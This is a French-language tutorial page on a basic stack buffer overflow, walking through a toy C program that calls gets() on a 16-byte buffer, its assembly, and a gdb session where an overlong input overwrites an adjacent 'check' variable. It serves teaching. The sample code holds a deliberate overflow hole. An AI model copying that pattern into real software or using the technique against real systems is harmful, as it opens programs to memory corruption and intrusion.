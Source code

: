 # 

## The Bug
Le Buffer Overflow est un bug qui se produit lorsqu&#39;un programme ecrit dans un buffer plus de bytes que le buffer ne peut en accueillir. 
Ce que l&#39;on designe par le terme de buffer est une zone memoire dont le programme controle le contenu. Cela peut representer n&#39;importe quel element present en memoire (variables, constantes, zone memoire dynamique...).

Le probleme avec ce bug etant que le programme tout entier s&#39;appuie sur la memoire pour fonctionner. Ainsi en debordant du buffer le programme va potentiellement reecrire d&#39;autres elements presents en memoire et donc des element necessaire a son propre fonctionnement, ce qui va souvent provoquer un crash.

## Demonstration du Bug
Pour que ce soit plus parlant voici un exemple tres basique que l&#39;on va etudier en assembleur pour mieux comprendre le reel fonctionnement du programme et comment il interragit avec la memoire.
```c title:test.c
#include &lt;stdio.h&gt;

int main(){
	int check = 0;
	char buffer[16];

	gets(buffer);
	if (check == 0x1337)
		printf(&#34;Well Done!!&#34;);
	return 0;
}
```

### Analysis
Le programme est tres simple. Il defini une variable **check** qu&#39;il initialise a 0. Il defini ensuite un tableau de caracteres, que l&#39;on peu definir comme un buffer puisque un tableau de 16 carateres reprensente concretement une zone memoire de 16 bytes reservee a cette variable. Ensuite, il lit depuis l&#39;entree standard et save l&#39;input lu dans le buffer. Enfin, il verifie que la variable **check** est bien egale a **0x1337**.

Ca peut paraitre un peu bizarre. Pourquoi la variable check serait egale a 0x1337 si elle a ete initialisee a 0 et inchangee. Et bien peut etre que le programme est vulnerable et que l&#39;on peut reecrire la valeur de check 😈.

Si on s&#39;en referre a la man page de gets(), on se rend compte que la fonction gets() lit la premiere ligne de l&#39;entree standard (stdin) et la sauvegarde dans le buffer passe en parametre.
```md title:man_gets
DESCRIPTION

       gets()  reads  a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a
       null byte (&#39;\0&#39;).  No check for buffer overrun is performed (see BUGS below).
```

Wait, wait, wait... Si gets() lit la premiere ligne de stdin, et que notre buffer ne peut accueilir que 16 bytes, que se passe-t-il si la ligne lu fait plus de 16 bytes?

### Assembly
Pour le comprendre, regardons ce que fait le programme en bas niveau :
```nasm title:test.s
push   rbp
mov    rbp,rsp
sub    rsp,0x20
mov    DWORD PTR [rbp-0x4],0x0
lea    rax,[rbp-0x20]
mov    rdi,rax
mov    eax,0x0
call   0x1040 &lt;gets@plt&gt;
cmp    DWORD PTR [rbp-0x4],0x1337
jne    0x1186 &lt;main&#43;61&gt;
lea    rax,[rip&#43;0xe8b]        # 0x2004
mov    rdi,rax
mov    eax,0x0
call   0x1030 &lt;printf@plt&gt;
mov    eax,0x0
leave
ret
```

Concretement, il y a 2 parties interressantes a regarder :
- D&#39;abord, le programme va sauvegarder la valeur de check sur la stack.
```nasm
mov    DWORD PTR [rbp-0x4],0x0
```
- Ensuite il reserve une zone memoire de minimum 16 bytes (sur la stack) et passe son adresse en argunent a gets().
```nasm
lea    rax,[rbp-0x20]
mov    rdi,rax
mov    eax,0x0
call   0x1040 &lt;gets@plt&gt;
```

Ainsi, si on deroule l&#39;execution du programme notre stack va ressembler a quelque chose comme ca:
[SCHEMA]

### Exploit
Si on s&#39;interesse a ce que fait reelement la fonction gets(), elle prend tout simplement un adresse memoire (ici l&#39;adresse de notre buffer), et y ecrit les bytes lus depuis l&#39;entree standard. Le probleme est qu&#39;a l&#39;adresse de buffer&#43;0x1c, il y a la valeur de check. Donc si gets lit plus de 28 bytes, il va ecrire par dessus la valeur de check.
[SCHEMA]

Si on lance un debugger, qu&#39;on test notre exploit et qu&#39;on break sur l&#39;instruction qui verifie la valeur de check, on peut voir qu&#39;on a bien reecrit la valeur de check sauvegardee en memoire.
```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000001149 &lt;&#43;0&gt;:	push   rbp
   0x000000000000114a &lt;&#43;1&gt;:	mov    rbp,rsp
   0x000000000000114d &lt;&#43;4&gt;:	sub    rsp,0x20
   0x0000000000001151 &lt;&#43;8&gt;:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000001158 &lt;&#43;15&gt;:	lea    rax,[rbp-0x20]
   0x000000000000115c &lt;&#43;19&gt;:	mov    rdi,rax
   0x000000000000115f &lt;&#43;22&gt;:	mov    eax,0x0
   0x0000000000001164 &lt;&#43;27&gt;:	call   0x1040 &lt;gets@plt&gt;
   0x0000000000001169 &lt;&#43;32&gt;:	cmp    DWORD PTR [rbp-0x4],0x1337
   0x0000000000001170 &lt;&#43;39&gt;:	jne    0x1186 &lt;main&#43;61&gt;
   0x0000000000001172 &lt;&#43;41&gt;:	lea    rax,[rip&#43;0xe8b]        # 0x2004
   0x0000000000001179 &lt;&#43;48&gt;:	mov    rdi,rax
   0x000000000000117c &lt;&#43;51&gt;:	mov    eax,0x0
   0x0000000000001181 &lt;&#43;56&gt;:	call   0x1030 &lt;printf@plt&gt;
   0x0000000000001186 &lt;&#43;61&gt;:	mov    eax,0x0
   0x000000000000118b &lt;&#43;66&gt;:	leave
   0x000000000000118c &lt;&#43;67&gt;:	ret

(gdb) b *main&#43;32
Breakpoint 1 at 0x1169

(gdb) r
Starting program: /root/a.out
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

On inspecte le contexte dans lequel on a break dans gdb.
```
(gdb) x/i $rip
=&gt; 0x555555555169 &lt;main&#43;32&gt;:	cmp    DWORD PTR [rbp-0x4],0x1337

(gdb) x/wx $rbp-0x4
0x7fffffffe2dc:	0x42424242
```

On a donc bien reussi a overwrite la valeur de check 🙂.

### Scripting the Exploit
Pour finaliser la technique d&#39;exploitation, on va faire un petit script python qui va gerer toutes les interactions a notre place.



---

> Author:   
> URL: http://my.littlepwney.fr/pwn/stack-buffer-overflow/basic-overflow/  

